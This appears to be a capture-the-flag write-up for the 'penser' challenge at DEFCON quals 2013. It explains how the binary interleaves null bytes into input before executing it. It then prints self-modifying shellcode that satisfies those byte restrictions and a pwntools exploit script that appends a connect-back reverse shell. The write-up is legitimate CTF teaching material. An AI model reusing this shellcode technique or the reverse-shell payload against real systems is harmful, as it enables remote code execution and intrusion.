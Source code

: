 ```yaml
---
title: penser - DEFCON quals 2013
author: thorlund
layout: post
published: true
date: 2013-06-19 23:04:01
---
```


The reversing was fairly trivial.

First the length of what was about to be received should be sent, with the added requirement that the length could not exceed 0x1000 bytes.

Then a buffer of that size was malloc'ed and received into.

mmap was used to make room for a buffer twice the size of the input and the received input was copied into the mmap'ed memory.

This was however just a decoy, as both buffers were passed on to a function located at 0x40124c, which copied each byte from the malloced into every second position of the mmapped buffer. The spaces were filled with null bytes, so if 41414141 was sent to the server, the mmap'ed buffer would contain 4100410041004100.

Two cases would stop this copying:

      1. if one of the bytes were less than 0x1f (with the exception of '\n'). This was a hard restriction because it would cause the function to return -1 and stop running.
      2. if a null byte was encountered or if the buffer was filled the copying would stop, but the rest of the program would continue running.

If the function returns correctly, the program will call the mmap'ed buffer.

So first there is a need to craft shellcode, in which each second byte is a null byte and no byte value is less than 0x1f or larger than 7f (signed compare).

There is however some good news, as the stack contained goodies. A pointer to the forgotten lands (the malloc'ed buffer) is located on the stack, free has been called on it, but the later portions of the received data is still there.

With this in mind, we needed to craft shellcode to do the following:

     1. Retrieve the pointer
     2. Add some offset
     3. Jump to the modified pointer

As all jumps have opcodes with values above 0x7f, we needed to change the last requirement into writing some code that makes some self-modifying shellcode.

```asm
00000000  59                pop rcx
00000001  004500            add [rbp+0x0],al ;JUNK
00000004  59                pop rcx
00000005  004500            add [rbp+0x0],al ;JUNK
00000008  59                pop rcx
00000009  004500            add [rbp+0x0],al ;JUNK
0000000C  59                pop rcx
0000000D  004500            add [rbp+0x0],al ;JUNK
00000010  5F                pop rdi ; rdi now contains
00000011  004500            add [rbp+0x0],al ;JUNK
00000014  54                push rsp
00000015  004500            add [rbp+0x0],al ;JUNK
00000018  5B                pop rbx
00000019  004500            add [rbp+0x0],al ;JUNK
0000001C  59                pop rcx ; rbx now points at any value pushed to the stack
0000001D  004500            add [rbp+0x0],al ;JUNK
00000020  6800560041        push dword 0x41005600 ; 56 is the offset to 7f
00000025  004500            add [rbp+0x0],al ;JUNK
00000028  59                pop rcx; ch contains 56
00000029  004500            add [rbp+0x0],al ;JUNK
0000002C  52                push rdx ; rdx contains a pointer to this code
0000002D  002B              add [rbx],ch;
0000002F  004500            add [rbp+0x0],al ;JUNK
00000032  5E                pop rsi; rsi = pointer to 7f
00000033  004500            add [rbp+0x0],al ;JUNK
00000036  6800440041        push dword 0x41004400 ; 44+7f = ret
0000003B  004500            add [rbp+0x0],al ;JUNK
0000003E  59                pop rcx
0000003F  002E              add [rsi],ch ; write the ret
00000041  004500            add [rbp+0x0],al ;JUNK
00000044  68002D0041        push dword 0x41002d00; offset into the "real" shellcode
00000049  004500            add [rbp+0x0],al ;JUNK
0000004C  58                pop rax
0000004D  004500            add [rbp+0x0],al ;JUNK
00000050  57                push rdi
00000051  0023              add [rbx],ah; add the offset to the malloced pointer
00000053  004500            add [rbp+0x0],al ;JUNK
00000056  7F                db 0x7f
```

All there is left to do now is to make the final python script:

```python
from pwn import *
splash()
context('amd64','linux','ipv4')

HOST = '127.0.0.1'
PORT = 8273


MY_HOST = '127.0.0.1'
MY_PORT = 1337

sock  = remote(HOST,PORT)
payload = ''
with open('init.asm') as init:
    payload += asm(init.read())

assert(payload)
if any(x <> 0 for x in payload[1::2]):
    print "you dear sir, have failed"
    exit(-1)

payload = payload[::2]
payload += chr(0)
payload += asm(shellcode.connectback(MY_HOST,MY_PORT))

sock.send(p32(len(payload)))

sock.send(payload)
```

From the shell:
    cat key
    The key is: TBDHelloooookdkdkiekdiekdiek
